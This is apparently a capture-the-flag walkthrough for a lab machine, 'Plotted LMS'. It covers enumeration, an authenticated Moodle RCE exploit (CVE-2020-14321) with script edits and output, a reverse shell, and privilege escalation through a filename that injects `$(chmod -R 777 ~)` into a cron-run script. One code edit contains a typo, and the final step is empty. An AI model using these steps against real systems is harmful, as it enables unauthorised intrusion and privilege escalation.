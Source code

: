 # Plotted LMS

A fairly hard room, largely due to the breadth of the enumeration and its numerous rabbit holes, plus some instability mixed with dickery in the foothold path.

1. A rust scan reveals four websites, 80, 873, 8820 and 9020. All show a default apache page
2. Using ffuf with directory wordlist medium on each, it reveals three sites: :873/rail, :8820/learn and :9020/moodle. The first two look to be custom built, but the last is a regular moodle instance.
3. Running moodlescan against the moodle url, reveals it is version 3.9 beta. This version is vulnerable to CVE-2020-14321, a authenticated remote code execution vulnerability.
4. The vuln requires the creds or cookie of a 'teacher'. Fortunately the site allows registeration, so I register a `test123:Test-123` user. Furthermore, there is a course 'teachers only' that allows self-enrollment, making the new user a teacher.

> The next bit was tricky. It took me four instances of the target VM and a lot of dickery to get the exploit working. Part of it was the author's countermeasures: any request without a referer header would respond with a rickroll message, breaking the script. But aside from that, the exploit itself seemed dependent on a very specific state - any messing about with moodle as I did trying to debug or enumerate would break the script flow, very annoying. In the end, the exact steps described following worked somewhat consistently.

5. On exploit-db, there is a reference impl for this vuln: https://www.exploit-db.com/exploits/50180. Instead of using that directly, I used the original repo referenced: https://github.com/HoangKien1020/CVE-2020-14321
6. Before running, this needs to be modified:
    - on line 9, this line: `headers={"Content-Type":"application/x-www-form-urlencoded"}` should be expanded to include a referer value, e.g. `headers={"Content-Type":"application/x-www-form-urlencoded","Referer": "http://10.10.94.67:9020/moodle/"}`
    - there are two uses of `session.get` in the script that dont specify headers, e.g. line 27~: `r=session.get(login_url,proxies=proxies)`. This should be changed to add the headers variable, e.g. `r=session.get(login_url,proxies=proxies,eaders=headers)`.
7. Running the script like so will hopefully result in output like the following:

    ```bash
    root@ip-10-10-242-204:~# python3 ./cve202014321.py -url http://10.10.94.67:9020/moodle -u test123 -p Test-123 -cmd=ls
                             ***CVE 2020 14321***
        How to use this PoC script
        Case 1. If you have vaid credentials:
        python3 cve202014321.py -u http://test.local:8080 -u teacher -p 1234 -cmd=dir
        Case 2. If you have valid cookie:
        python3 cve202014321.py -u http://test.local:8080 -cookie=37ov37abn9kv22gj7enred9bl7 -cmd=dir

    [+] Your target: http://10.10.94.67:9020/moodle
    [+] Logging in to teacher
    [+] Teacher logins successfully!
    [+] Privilege Escalation To Manager in the course Done!
    [+] Maybe RCE via install plugins!
    [+] Checking RCE ...
    [+] RCE link in here:
    http://10.10.94.67:9020/moodle/blocks/rce/lang/en/block_rce.php?cmd=ls
    block_rce.php

    ```
    
8. with the new webshell we can get a strong reverse shell. I used `https://github.com/NHAS/reverse_ssh` to get a full shell as www-data.
9. To pivot to the `plot_admin` user, there is a cronjob that runs every minute, executing a script called backup.py in the plot_admin user's home directory. The contents of this script are:

    ```python
    import os

    moodle_location = "/var/www/uploadedfiles/filedir/"
    backup_location = "/home/plot_admin/.moodle_backup/"

    os.system("/usr/bin/rm -rf " + backup_location + "*")

    for (root,dirs,files) in os.walk(moodle_location):
            for file in files:
                    os.system('/usr/bin/cp "' + root + '/' + file + '" ' + backup_location)
    ```
    
10. To exploit this, as we have write into `/var/www/uploadedfiles/filedir/`, we can create a file in there like `$(chmod -R 777 ~)`. This can be done with `touch \$\(chmod\ -R\ 777\ \~\)` in that folder. Within a minute, all files in plot_admin's home directory will be universally writable.
11. Next, adding `os.system("/path/to/revshell")` into backup.py (after removing the chmod file above, as it breaks the script) will get a reverse shell as plot_admin.
12. 

